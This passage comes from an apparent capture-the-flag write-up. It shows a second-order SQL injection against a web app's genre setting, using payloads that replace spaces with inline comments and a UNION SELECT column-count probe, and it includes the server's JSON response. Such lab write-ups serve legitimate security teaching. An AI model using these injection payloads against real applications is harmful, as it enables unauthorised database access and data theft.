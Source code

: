 I already noted above that having a space in the query might have been
messing something up. Without knowing what it's doing, I can try using
comments instead of spaces, like this:



    food')/**/or/**/1=1#



It's important to switch from the `-- -` comment to `#`, as the former
requires a space to make the comment, and I'm testing without spaces
(`--/**/-` will not work).

With my genres set to that, "Your Feed" populates with images of genre
animal, architecture, feed, nature, etc. This is successful injection,
and it's a second-order SQL injection because the query to one page that
sets the injection is then manifested on another page when viewed.

#### Number of Columns

To do a UNION injection, I'll need to know the number of columns
naturally returned from the query so I can UNION on that same number of
columns of data to leak.

I'll see from the data returned above that each image has at least six
things returned (`id`, `file`, `genre`, `created_at`, `udpated_at`, and
`url`), through `url` could be generated from `file`, so maybe only five
items. I'll try five like this: `')/**/UNION/**/SELECT/**/1,2,3,4,5#`.

In Repeater, I'll request the feed, and it returns exactly what I'm
hoping for:



    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Content-Type: application/json
    Connection: close
    Cache-Control: no-cache, private
    Date: Thu, 14 Sep 2023 19:27:29 GMT
    X-RateLimit-Limit: 3600
    X-RateLimit-Remaining: 3594
    Access-Control-Allow-Origin: *
    X-Frame-Options: SAMEORIGIN
    X-XSS-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    Content-Length: 168

    {
      "status":"success",
      "data":[
        {
          "id":1,
          "file":"2",
          "genre":"3",
          "created_at":"1970-01-01T00:00:04.000000Z",
          "updated_at":"1970-01-01T00:00:05.000000Z",
          "url":"\/storage\/2"
        }
      ]
    }
